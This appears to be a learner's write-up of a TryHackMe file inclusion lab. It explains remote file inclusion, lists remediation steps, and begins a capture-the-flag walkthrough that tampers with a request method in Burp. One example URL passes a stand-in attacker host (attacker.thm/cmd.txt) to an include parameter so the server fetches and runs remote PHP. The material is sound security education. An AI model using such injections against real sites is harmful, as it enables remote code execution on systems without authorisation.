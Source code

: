 ```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.


## REMEDIATION

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

  

1. Keep system and services, including web application frameworks, updated with the latest version.  
    
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.  
    
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.  
    
7. Implement whitelisting for file names and locations as well as blacklisting.



# CHALLENGE


## FIRST

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105181015.png)

We need to go into inspector and change the method from `GET` to `POST`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105181107.png)

Once we've changed that, send the request to burp and modify the value to POST:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105181139.png)

Once that is done, we will be able to retrieve the flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241105181202.png)
